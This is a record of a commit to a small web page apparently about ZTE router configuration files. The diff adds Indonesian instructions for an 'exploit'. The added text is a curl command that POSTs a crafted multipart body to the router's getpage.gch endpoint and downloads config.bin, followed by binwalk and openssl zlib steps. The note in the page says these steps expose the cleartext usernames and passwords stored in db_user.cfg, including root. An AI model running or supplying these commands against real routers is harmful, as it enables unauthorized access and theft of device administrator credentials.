

Before and after one commit to indihom/zteconfigbin, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page at 88% size, 1771 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -7,6 +7,25 @@ http://192.168.1.1/getpage.gch?pid=101&nextpage=manager_dev_config_t.gch"
 enctype="multipart/form-data" onsubmit="return false;">
 Request Sent....
 <input type="hidden" name="config" id="config" value="">
-  <p></p>
+  <p>3xploit Lewat Linux Terminal:
+
+<pre>
+$ curl -s -k -X 'POST' -H 'Content-Type: multipart/form-data; boundary=Sm0q' --data-binary $'Sm0q\x0d\x0aContent-Disposition form-data;name=\"config\"\x0d\x0aSm0q\x0d\x0a' 'http://192.168.1.1/getpage.gch?pid=100' -o config.bin
+</pre>
+</p>
+<p>
+jika config.bin sudah di download kemudian extract dengan binwalk (Aplikasi hanya untuk linux)...</p>
+<p>
+Extract :<br />
+
+<code>$ binwalk -e config.bin</code>
+binwalk akan mengekstrak file terkompresi ZLIB.</p>
+<p>kemudian ekstrak ZLIB Menggunakan perintah
+openssl command decompress zlib files:
+<code>
+$ openssl zlib -d &lt; _config.bin.extracted/D8.zlib</blockquote>
+</code></p>
+<p> openssl mendekompresi file zlib. Salah satu file yang diekstraksi adalah &lt;XML&gt;. konfigurasi perangkat dengan db_user.cfg username dan password cleartext (termasuk root).
+</p>
 </body>
 </html>
```
